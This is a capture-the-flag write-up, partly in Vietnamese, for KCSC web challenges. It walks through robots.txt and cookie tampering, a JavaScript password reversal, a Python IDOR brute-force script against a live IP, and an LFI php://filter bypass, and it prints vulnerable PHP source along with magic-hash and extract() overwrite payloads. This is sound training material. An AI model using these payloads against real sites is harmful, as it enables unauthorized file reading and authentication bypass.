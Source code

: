 ## KCSC Recruit Members 

## Robot

Challenge lụm flag

**Part 1**: `KCSC{C0r0n4_` --> source-code

**Part 2**: `v1ru22_1s_` --> robots.txt 

**Part 3** : `g0n3_n0w!!}` --> disallowed: /vaccine.php --> /vaccine -> cookies:vaccine=0 --> vaccine=1 

**Flag**: `KCSC{C0r0n4_v1ru22_1s_g0n3_n0w!!}`

## 2. Warm Up

```javascript
    const checkPassword = () => {
      const v = document.getElementById("password").value;
      const p = Array.from(v).map(a => 0xCafe + a.charCodeAt(0));
      if(p[0] === 52043 &&
         p[6] === 52063 &&
         p[5] === 52075 &&
         p[16] === 52076 &&
         p[9] === 52067 &&
         p[10] === 52063 &&
         p[4] === 52041 &&
         p[3] === 52067 &&
         p[8] === 52080 &&
         p[7] === 52037 &&
         p[2] === 52073 &&
         p[11] === 52082 &&
         p[12] === 52031&&
         p[13] === 52069 && 
         p[14] == 52063 && 
         p[15] == 52071 && 
         p[1] == 52063) {
        window.location.replace(v + ".html");
      } else {
        alert("Wrong password!");
      }
    }
```

`const p = Array.from(v).map(a => 0xCafe + a.charCodeAt(0));` : Lấy từng số trong string ra dưới dạng ascii code rồi cộng cho `0xcafe`. 0xcafe `hex2decimal` được `51966`. Sắp xếp lại possition rồi lấy `51966` trừ cho vế so sánh --> charcode --> password: `MakeKmaGreatAgain`

**flag**: `KCSC{j4v-a-SRript-i555-FUn}`

## DIOR

Viết láy của `IDOR - Insecure direct object references`: arises when an application `uses user-supplied input` to access objects `directly`.

![any](idor.png)

`Brute-force` flag thôi:
```python
import requests

url = 'http://45.77.39.59/?number='

for i in range(2000):
  r = requests.get(url + f'{i}')
  if 'KCSC{' in r.text:
    print(r.text)
    break
```

**flag**: `KCSC{Gud_luckkkkk__brooo}`

## Magic PHP

Web app: 1 page login -> only admin see flag, another look like vulnerable to LFI.

http://45.77.39.59/?page=secret

```
Warning: include(/etc/passwd.php): Failed to open stream: No such file or directory in /var/www/html/index.php on line 14

Warning: include(): Failed opening '/etc/passwd.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 14
```
Add extension --> `null byte` --> *yes!!*

**payload read index.php file**: `pHp://filter/convert.base64-encode/resource=index`

*case-sensitive for bypass!!*
`index.php`
```php
<?php
    if (isset($_GET['page']) && !empty($_GET['page'])){
        $page = $_GET['page'];
        if(strpos($page, 'php') !== false){
          die("<center>Don' hack me ! Stop !!!</center>");
      }
      elseif (strpos(strtolower($page), 'flag')  ) {
        die("<center>Don' hack me ! Stop !!!</center>");
      }
    }
    else{
        $page = "login";
    }
    include ($page.".php");
?>
```

Đoạn này chẳng có gì nhiều, ngồi đục include to RCE thì là hỏng, chú ý khi không set `page` paramteter thì login sẽ redirect to `login.php`(đọc cho kĩ source-code jump!!).

`pHp://filter/convert.base64-encode/resource=login`

```php
<?php 
    
    include ("flag.php"); //real flag in $flag

  if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if(!empty($_POST) && isset($_POST['user']) && isset($_POST['pass'])){
      $password = random_int(10000000, 99999999);
      extract($_POST);
      $user_hash ='0e902564435691274142490923013038' ;
  
      if (md5($user) == $user_hash && $password === $pass){
        echo $flag;
        die();
      }else{
        die("Only admin have flag !!");
      }
    }
  }
?>
```
Trông dễ ăn đó, với user_hash thì encrypt interger to 0e(0 mũ = 0) là bypass được --> `0e1137126905:0e291659922323405260514745084877`

Hàm extract() extract any variable in POST array. Và nó được gọi sau `$password` variable tức mình có thể ghi đè!!

full payload(POST): `user=0e1137126905&password=123&pass=123`

**flag**: `KCSC{LFI_to_loose_comparison@@}`
